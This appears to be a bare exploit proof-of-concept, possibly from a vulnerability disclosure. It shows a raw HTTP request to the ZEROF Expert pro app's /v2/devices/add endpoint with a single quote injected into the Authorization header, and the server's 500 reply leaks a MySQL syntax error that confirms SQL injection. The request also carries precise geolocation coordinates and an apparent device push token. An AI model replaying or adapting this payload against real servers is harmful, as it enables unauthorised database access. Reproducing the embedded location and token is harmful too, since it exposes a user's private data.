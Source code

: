 EXP
---

    POST /v2/devices/add HTTP/1.1
    Host: zerof
    Content-Type: application/x-www-form-urlencoded; charset=utf-8
    Accept: */*
    Connection: close
    Date: Thu, 07 Apr 2021 13:40:57 +0300
    Content-Length: 241
    User-Agent: ZEROF Expert pro/2.0 (com.zerof.expertpro; build:2; iOS 14.4.0) Alamofire/4.8.2
    Accept-Language: ru-RU;q=1.0
    Authorization: ZWS admin':e4NQCMRQELfsoddJwJPz/YoB3ak=
    Accept-Encoding: gzip, deflate

    device=?unrecognized?&geo=55.70402368871489%2C37.615802664058954&os=iOS%2014.4&token=f9Q0hE5JRpE%3AAPA91bFP19KGIIwJyLrbTuLwtP_jUvkUqqFM_k4W8czxm3ajT5Rh0jD2OHO_NmRIeY1C9zjzzNS_ch8VlNy2Bnqj5FcIdrWIFEevprpMGf3k96uFHuUsaa3aF8FS-RGwIsY8AXcUYcOP

    HTTP/1.1 500 Internal Server Error
    Connection: close
    Content-Type: application/json; charset=utf-8
    Content-Length: 176
    Date: Wed, 07 Apr 2021 10:35:59 GMT
    Server: ZEROF Web Server

    <html> #42000You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'')' at line 1 </html>